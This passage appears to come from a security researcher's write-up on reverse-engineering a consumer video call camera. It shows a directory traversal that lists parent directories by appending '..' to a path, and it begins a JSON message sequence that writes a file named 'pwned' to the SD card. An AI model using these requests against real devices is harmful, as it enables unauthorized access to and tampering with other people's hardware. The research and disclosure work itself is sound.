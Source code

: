 *Note:* *0x527ecc* is the address of a **../** string, not sure what Ghidra is doing there.

Now here is the groundbreaking, revolutionary, critical, monumental discovery - you can put **..** at the end of the path and get the contents of the directories above the allowed directories. 

![the_end_is_near.png](/assets/images/video_call_camera_p3/the_end_is_near.png)

For example, here is **/mnt/mtd/Flags/..**:

```
-json
{
  "Name": "OPFile",
  "OPFile": {
    "FileInfo": [
      {
        "FileName": "Log",
        "FileSize": 0
      },
      {
        "FileName": "Config",
        "FileSize": 0
      },
      {
        "FileName": "Flags",
        "FileSize": 0
      },
      {
        "FileName": "wifi_list_log",
        "FileSize": 1885
      }
    ],
    "Path": "/mnt/mtd/Flags/.."
  },
  "Ret": 100
}
```

It impossible to go anywhere else without adding a **/** after the **..** so this is as useful as it is going to get!

## File Write

I reverse-engineered the code a bit more, and I figured out that a file can be written to those same directories as seen above (this isn't impacted by the directory traversal as a **/** character is placed after the path and before the filename). It also automatically creates subdirectories, which is handy!

The following message sequence will create a file called **pwned/pwned** on the SD card (**/var/tmp/mmcblock0**):

1. First send this with a message type of **0xdac**:

```
-json
{
  "SessionID": "0x0001869f",
  "OPFile": {
    "FileName": "pwned",
    "Path": "/var/tmp/mmcblock0/pwned",
    "FileSize": 5
  }
}
```
